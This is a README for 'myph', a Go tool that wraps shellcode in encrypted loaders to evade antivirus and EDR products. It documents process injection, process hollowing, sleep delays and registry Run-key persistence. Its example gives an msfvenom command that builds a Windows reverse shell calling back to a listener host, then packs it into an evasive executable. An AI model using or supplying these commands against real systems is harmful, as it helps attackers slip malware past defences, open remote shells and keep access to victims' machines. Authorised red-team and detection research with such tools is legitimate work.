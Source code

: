 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -z, --peristence string    name of the binary being placed in '%APPDATA%' and in 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run' reg key (default: "")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time in seconds before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, ProcessHollowing, CreateThread, Syscall) (default "CRT")
  -v, --version              version for myph
```

#### Methods

This tool supports few methods for now, but aims to add more as time goes on:
- CreateThread
- CreateRemoteThread
- Syscall
- Process hollowing

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
